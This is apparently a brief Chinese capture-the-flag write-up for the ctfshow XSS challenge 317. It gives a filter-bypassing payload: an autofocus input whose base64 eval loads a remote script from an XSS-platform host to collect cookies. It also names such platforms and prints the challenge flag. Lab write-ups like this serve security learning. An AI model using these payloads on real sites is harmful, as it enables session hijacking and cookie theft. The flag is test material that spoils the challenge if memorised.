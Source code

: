 # ctfshow-xss317



##### 参考链接

其他大佬链接

feng  https://ego00.blog.csdn.net/article/details/114079028

Y4	 https://blog.csdn.net/solitudi/article/details/111568030?spm=1001.2014.3001.5501

bit   https://www.xl-bit.cn/index.php/archives/120/



```
圣诞快乐，写下祝福语，生成链接，发送给朋友，可以领取十个鸡蛋！
祝福语
请输入祝福语
 
生成链接
```

```js
既然前面是反射型xss  其实不管它是反射还是存储 
主要还是需要我们利用xss平台 获取cookie


xss平台
https://ww.rs/
https://hk.sb/

应该是过滤了script

输入框输入
<Img sRC=//hk.sb/UfVb/test.jpg>
<input onfocus=eval(atob(this.id)) id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vaGsuc2IvVWZWYiI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs= autofocus>
虽然没有弹框但是已经记录了cookie


ctfshow{86d3235b-e0ff-44d8-b189-861c3908b202}


```

